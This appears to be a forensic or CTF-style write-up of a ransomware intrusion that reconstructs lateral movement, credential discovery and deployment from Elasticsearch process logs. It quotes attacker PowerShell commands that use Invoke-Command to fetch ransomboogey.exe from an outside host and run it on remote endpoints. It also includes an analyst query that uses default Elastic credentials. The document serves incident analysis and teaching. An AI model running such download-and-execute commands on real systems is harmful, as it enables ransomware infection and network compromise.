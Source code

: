 
### Lateral Movement

#### Invoke-Command
The attacker used `Invoke-Command` to execute commands remotely on other endpoints:
```powershell
Invoke-Command -ComputerName WKSTN-1327.quicklogistics.org -ScriptBlock { iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe; .\ransomboogey.exe }
```

#### Shared Resource Discovery
Using `Invoke-ShareFinder`, the attacker discovered credentials for `allan.smith` in a file named `IT_Automation.ps1`:
```plaintext
2023-08-30T01:56:05.018Z Administrator@DC01	4296	4008	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "Invoke-Command -ComputerName WKSTN-1327.quicklogistics.org -ScriptBlock { ... }"
```

---

### Ransomware Deployment

#### Download and Execution
The ransomware `ransomboogey.exe` was downloaded and executed on multiple endpoints:
```plaintext
2023-08-30T01:53:13.738Z Administrator@DC01	4308	4008	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe"
2023-08-30T01:53:33.815Z Administrator@DC01	5572	4008	"C:\Users\Administrator\ransomboogey.exe"
```

---

### Log Analysis

#### Querying Elasticsearch
To analyze process creation logs:
```bash
$ curl -d "$(cat query.json)" -H 'Content-Type: application/json' -s http://elastic:elastic@<ELASTIC_IP>:9200/winlogbeat-7.17.6-2023.08.29-000001/_search?size=10000 | jq -r '.hits.hits[]."_source".user.name' | sort | uniq -c | sort -nr
```

#### Endpoint Activity
Endpoints with the most activity:
```plaintext
5695 WKSTN-0051
2174 DC01
2131 WKSTN-1327
```

